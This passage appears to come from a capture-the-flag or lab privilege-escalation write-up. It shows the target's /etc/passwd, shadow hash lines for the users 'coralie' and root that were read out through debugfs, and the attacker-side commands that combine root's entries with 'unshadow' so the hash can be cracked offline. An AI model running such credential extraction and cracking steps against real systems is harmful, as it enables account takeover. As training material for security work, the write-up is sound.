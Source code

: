 ```
coralie:$y$j9T$knJbyxpFrCvXDa/DDdck/1$GKzq8p7o9Qjurg6bzmM6TZtilp3qY8caDnkDYDJas35:19779:0:99999:7:::
debugfs:  q
```

`cat /etc/passwd`:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
ntpsec:x:103:111::/nonexistent:/usr/sbin/nologin
epmd:x:104:112::/run/epmd:/usr/sbin/nologin
melbourne:x:1000:1000:,,,:/home/melbourne:/bin/bash
coralie:x:1001:1001::/home/coralie:/bin/bash
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./root_passwd.txt`:
```
root:x:0:0:root:/root:/bin/bash
```

`vim ./root_shadow.txt`:
```
root:$y$j9T$iAHGFf9E40kdt5eEY4R790$1Hnu3bkcGq69yrKAWBL9zuT1cLG16/ENdKsxR1omAqB:19779:0:99999:7:::
```

`unshadow ./root_passwd.txt ./root_shadow.txt > ./root_unshadowed.txt`

`cat ./root_unshadowed.txt`:
``` 
root:$y$j9T$iAHGFf9E40kdt5eEY4R790$1Hnu3bkcGq69yrKAWBL9zuT1cLG16/ENdKsxR1omAqB:0:0:root:/root:/bin/bash
```
